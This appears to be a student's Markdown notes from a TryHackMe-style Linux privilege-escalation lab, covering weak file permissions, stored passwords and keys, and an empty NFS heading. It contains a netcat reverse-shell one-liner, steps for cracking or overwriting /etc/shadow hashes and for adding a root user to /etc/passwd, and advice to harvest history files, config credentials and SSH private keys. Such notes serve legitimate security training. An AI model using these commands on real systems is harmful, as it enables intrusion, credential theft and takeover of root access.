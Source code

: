 
# Weak File Permissions

If a writeable executable, try this one-liner (it's a bash shell connect)
	 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [port] >/tmp/f'`


`Etc/shadow`
- Contains password hashes
- May be readable or writeable
- Use` ls -l` to view the bitset
- If you can read, copy password hashes and crack them.
- If you can write, replace a hash with one you created (goes between first and second colons)

`Etc/passwd`
- Contains info about user accounts
- Some versions of linux may still have password hashes stored here
- Readable - gather info
- Writeable - replace hashes
- Writeable - add a user with root privileges
	- You'll need to use something like `openssl passwd -1 -salt THM password1` to create a password hash and add it to the file
	- This gives the hash the salt from THM and the hashed password is password1
	- You still need to add a username at the beginning of the line in the `/passwd` file
	- After the hash, add `:0:0:root:/root:/bin/bash` to get root privileges for the new user's shell


# Passwords and Keys

History Files
- If a user has ever typed their password on the command line instead of the password prompt, it may have been recorded
- View contents of all hidden history files in user's home directory
	- `cat ~/.*history | less`

Config files
- Config files may contain passwords in plaintext or reversible formats.
- In this example it was an .ovpn file. It contained a reference to another location where credentials can be found.

Ssh keys
- found in `/home/user/.ssh/id_rsa`
- or `/root/.ssh/id_rsa`
	- try to make a public key and add it here
- Sometimes users make backups of important files but don't secure them with correct permissions
- Look for hidden files and directories in the system root - `ls -la /`
- Search hidden directories - `ls -l /[hidden directory]`
- Copy keys that you find to your attacking machine. Don't forget to give it the correct permissions.


# NFS
